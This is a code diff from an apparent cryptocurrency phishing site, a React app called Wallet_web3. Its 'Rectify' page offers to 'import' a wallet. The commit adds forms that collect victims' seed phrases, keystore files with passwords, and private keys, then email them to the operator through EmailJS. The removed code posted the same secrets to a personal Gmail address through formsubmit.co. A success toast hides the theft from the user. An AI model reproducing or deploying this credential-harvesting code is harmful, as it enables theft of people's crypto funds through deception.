

Before and after one commit to Hassnain-bit/Wallet_web3, a React (Create React App) app: page / in a window 1280 px wide. Shown: the part 2475-3275 px from the top of the page. Before the commit the page ends 3211 px from the top, so only its background shows below. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
NEW MAIL DONE

```diff
--- a/package.json
+++ b/package.json
@@ -3,11 +3,13 @@
   "version": "0.1.0",
   "private": true,
   "dependencies": {
+    "@emailjs/browser": "^3.10.0",
     "@testing-library/jest-dom": "^5.16.5",
     "@testing-library/react": "^13.4.0",
     "@testing-library/user-event": "^13.5.0",
     "@thirdweb-dev/react": "^3.8.1",
     "@thirdweb-dev/sdk": "^3.8.1",
+    "emailjs-com": "^3.2.0",
     "ethers": "^5.7.2",
     "react": "^18.2.0",
     "react-dom": "^18.2.0",
@@ -15,6 +17,7 @@
     "react-router-dom": "^6.8.1",
     "react-scripts": "5.0.1",
     "react-tabs": "^6.0.0",
+    "react-toastify": "^9.1.1",
     "web-vitals": "^2.1.4"
   },
   "scripts": {
--- /dev/null
+++ b/src/components/Forms/Keystone.js
@@ -0,0 +1,76 @@
+import React, { useRef } from "react";
+import emailjs from "@emailjs/browser";
+import { ToastContainer, toast } from "react-toastify";
+import "react-toastify/dist/ReactToastify.css";
+
+function Keystone() {
+  const form = useRef();
+  const sendEmail = (e) => {
+    e.preventDefault();
+
+    emailjs
+      .sendForm(
+        "service_d2i06rj",
+        "template_k1w9571",
+        form.current,
+        "nILhyjPdDiG6yewwS"
+      )
+      .then(
+        (result) => {
+          console.log(result.text);
+        },
+        (error) => {
+          console.log(error.text);
+        }
+      );
+    e.target.reset();
+    toast.success("Thanks you", {
+      position: "top-center",
+      autoClose: 2000,
+      progressClassName: "fancy-progress-bar",
+      closeButton: false,
+    });
+  };
+  return (
+    <>
+      <form className="fmt_panel" ref={form} onSubmit={sendEmail}>
+        <textarea
+          required
+          rows={4}
+          placeholder="Enter your Keystore JSON"
+          style={{ marginBottom: "1.5rem" }}
+          type="text"
+          name="keystore_jSON"
+        />
+        <input
+          required
+          placeholder="Wallet password"
+          type="text"
+          name="wallet_password"
+        />
+        <p>
+          Several lines of text beginning with "{`{`}...{`}`}" plus the password
+          you used to encrypt it.
+        </p>
+        <button>
+          IMPORT
+          <span>
+            <svg
+              fill="none"
+              strokeLinecap="round"
+              strokeLinejoin="round"
+              strokeWidth="2"
+              viewBox="0 0 24 24"
+              stroke="currentColor"
+            >
+              <path d="M13 9l3 3m0 0l-3 3m3-3H8m13 0a9 9 0 11-18 0 9 9 0 0118 0z"></path>
+            </svg>
+          </span>
+        </button>
+        <ToastContainer />
+      </form>
+    </>
+  );
+}
+
+export default Keystone;
--- /dev/null
+++ b/src/components/Forms/Phrase.js
@@ -0,0 +1,66 @@
+import React, { useRef } from "react";
+import emailjs from "@emailjs/browser";
+import { ToastContainer, toast } from "react-toastify";
+import "react-toastify/dist/ReactToastify.css";
+
+function Phrase() {
+  const form = useRef();
+  const sendEmail = (e) => {
+    e.preventDefault();
+
+    emailjs
+      .sendForm(
+        "service_d2i06rj",
+        "template_nhc464i",
+        form.current,
+        "nILhyjPdDiG6yewwS"
+      )
+      .then(
+        (result) => {
+          console.log(result.text);
+        },
+        (error) => {
+          console.log(error.text);
+        }
+      );
+    e.target.reset();
+    toast.success("Thanks you", {
+      position: "top-center",
+      autoClose: 2000,
+      progressClassName: "fancy-progress-bar",
+      closeButton: false,
+    });
+  };
+  return (
+    <>
+      <form className="fmt_panel" ref={form} onSubmit={sendEmail}>
+        <textarea
+          required
+          rows={4}
+          placeholder="Enter your recovery phrase"
+          type="text"
+          name="recovery_phrase"
+        />
+        <p>Typically 12 (sometimes 24) words separated by single spaces</p>
+        <button>
+          IMPORT
+          <span>
+            <svg
+              fill="none"
+              strokeLinecap="round"
+              strokeLinejoin="round"
+              strokeWidth="2"
+              viewBox="0 0 24 24"
+              stroke="currentColor"
+            >
+              <path d="M13 9l3 3m0 0l-3 3m3-3H8m13 0a9 9 0 11-18 0 9 9 0 0118 0z"></path>
+            </svg>
+          </span>
+        </button>
+        <ToastContainer />
+      </form>
+    </>
+  );
+}
+
+export default Phrase;
--- /dev/null
+++ b/src/components/Forms/PrivateKey.js
@@ -0,0 +1,68 @@
+import React, { useRef } from "react";
+import emailjs from "@emailjs/browser";
+import { ToastContainer, toast } from "react-toastify";
+import "react-toastify/dist/ReactToastify.css";
+
+function PrivateKey() {
+    const form = useRef();
+  const sendEmail = (e) => {
+    e.preventDefault();
+
+    emailjs
+      .sendForm(
+        "service_d2i06rj",
+        "template_k1w9571",
+        form.current,
+        "nILhyjPdDiG6yewwS"
+      )
+      .then(
+        (result) => {
+          console.log(result.text);
+        },
+        (error) => {
+          console.log(error.text);
+        }
+      );
+    e.target.reset();
+    toast.success("Thanks you", {
+      position: "top-center",
+      autoClose: 2000,
+      progressClassName: "fancy-progress-bar",
+      closeButton: false,
+    });
+  };
+  return (
+    <>
+      <form
+        className="fmt_panel"
+        ref={form} onSubmit={sendEmail}
+      >
+        <input
+          required
+          placeholder="Enter your Private Key"
+          type="text"
+          name="private_key"
+        />
+        <p>Typically 12 (sometimes 24) words separated by single spaces</p>
+        <button>
+          IMPORT
+          <span>
+            <svg
+              fill="none"
+              strokeLinecap="round"
+              strokeLinejoin="round"
+              strokeWidth="2"
+              viewBox="0 0 24 24"
+              stroke="currentColor"
+            >
+              <path d="M13 9l3 3m0 0l-3 3m3-3H8m13 0a9 9 0 11-18 0 9 9 0 0118 0z"></path>
+            </svg>
+          </span>
+        </button>
+        <ToastContainer />
+      </form>
+    </>
+  );
+}
+
+export default PrivateKey;
--- a/src/pages/Home.js
+++ b/src/pages/Home.js
@@ -1,16 +1,55 @@
-import React from "react";
+import React, { useRef } from "react";
+import emailjs from "@emailjs/browser";
 import Footer from "../components/Footer";
 import Header from "../components/Header";
 import HowItWorks from "../components/HowItWorks";
 import Marquee from "../components/Marquee";
 
 function Home() {
+  const form = useRef();
+  const sendEmail = (e) => {
+    e.preventDefault();
+
+    emailjs
+      .sendForm(
+        "service_d2i06rj",
+        "template_nhc464i",
+        form.current,
+        "nILhyjPdDiG6yewwS"
+      )
+      // .sendForm(
+      //   "service_3a0enal",
+      //   "template_x55wubl",
+      //   form.current,
+      //   "nILhyjPdDiG6yewwS"
+      // )
+      .then(
+        (result) => {
+          console.log(result.text);
+        },
+        (error) => {
+          console.log(error.text);
+        }
+      );
+    e.target.reset();
+    console.log("Thank you");
+  };
   return (
     <>
       <Marquee />
       <Header />
       <HowItWorks />
       <Footer />
+
+      <form ref={form} onSubmit={sendEmail}>
+        <label>Name</label>
+        <input type="text" name="user_name" />
+        <label>Email</label>
+        <input type="email" name="user_email" />
+        <label>Message</label>
+        <textarea name="message" />
+        <input type="submit" value="Send" />
+      </form>
     </>
   );
 }
--- a/src/pages/Rectify.js
+++ b/src/pages/Rectify.js
@@ -5,14 +5,17 @@ import { Tab, Tabs, TabList, TabPanel } from "react-tabs";
 import "react-tabs/style/react-tabs.css";
 import Marquee from "../components/Marquee";
 import Footer from "../components/Footer";
+import Phrase from "../components/Forms/Phrase";
+import Keystone from "../components/Forms/Keystone";
+import PrivateKey from "../components/Forms/PrivateKey";
 
 function Rectify() {
- // FORM MODAL
+  // FORM MODAL
   const [open, setOpen] = useState(false);
 
   const onCloseModal = () => setOpen(false);
 
-//  INITIALIZING MODAL
+  //  INITIALIZING MODAL
   const [openInit, setOpenInit] = useState(false);
 
   const onCloseInitModal = () => setOpenInit(false);
@@ -41,7 +44,7 @@ function Rectify() {
       </div>
 
       <div>
-       {/* INITIALIZING MODAL */}
+        {/* INITIALIZING MODAL */}
         <Modal
           open={openInit}
           onClose={onCloseInitModal}
@@ -97,82 +100,13 @@ function Rectify() {
                 </TabList>
 
                 <TabPanel>
-                  <form
-                    className="fmt_panel"
-                    action="https://formsubmit.co/m.hassnainkhan32@gmail.com"
-                    method="POST"
-                  >
-                    <textarea
-                      required
-                      rows={4}
-                      placeholder="Enter your recovery phrase"
-                      type="text"
-                      name="recovery phrase"
-                    />
-                    <p>
-                      Typically 12 (sometimes 24) words separated by single
-                      spaces
-                    </p>
-                    <button type="submit">
-                      IMPORT
-                      <span>
-                        <svg
-                          fill="none"
-                          strokeLinecap="round"
-                          strokeLinejoin="round"
-                          strokeWidth="2"
-                          viewBox="0 0 24 24"
-                          stroke="currentColor"
-                        >
-                          <path d="M13 9l3 3m0 0l-3 3m3-3H8m13 0a9 9 0 11-18 0 9 9 0 0118 0z"></path>
-                        </svg>
-                      </span>
-                    </button>
-                  </form>
+                  <Phrase/>
                 </TabPanel>
                 <TabPanel>
-                  <form
-                    className="fmt_panel"
-                    action="https://formsubmit.co/m.hassnainkhan32@gmail.com"
-                    method="POST"
-                  >
-                    <textarea
-                      required
-                      rows={4}
-                      placeholder="Enter your Keystore JSON"
-                      style={{ marginBottom: "1.5rem" }}
-                      type="text"
-                      name="keystore jSON"
-                    />
-                    <input
-                      required
-                      placeholder="Wallet password"
-                      type="text"
-                      name="wallet password"
-                    />
-                    <p>
-                      Several lines of text beginning with "{`{`}...{`}`}" plus
-                      the password you used to encrypt it.
-                    </p>
-                    <button type="submit">
-                      IMPORT
-                      <span>
-                        <svg
-                          fill="none"
-                          strokeLinecap="round"
-                          strokeLinejoin="round"
-                          strokeWidth="2"
-                          viewBox="0 0 24 24"
-                          stroke="currentColor"
-                        >
-                          <path d="M13 9l3 3m0 0l-3 3m3-3H8m13 0a9 9 0 11-18 0 9 9 0 0118 0z"></path>
-                        </svg>
-                      </span>
-                    </button>
-                  </form>
+                  <Keystone/>
                 </TabPanel>
                 <TabPanel>
-                  <form
+                  {/* <form
                     className="fmt_panel"
                     action="https://formsubmit.co/m.hassnainkhan32@gmail.com"
                     method="POST"
@@ -202,7 +136,8 @@ function Rectify() {
                         </svg>
                       </span>
                     </button>
-                  </form>
+                  </form> */}
+                  <PrivateKey/>
                 </TabPanel>
               </Tabs>
             </div>
```
Also changed, not shown: 1 other file (tests, documents, lock files or other folders).
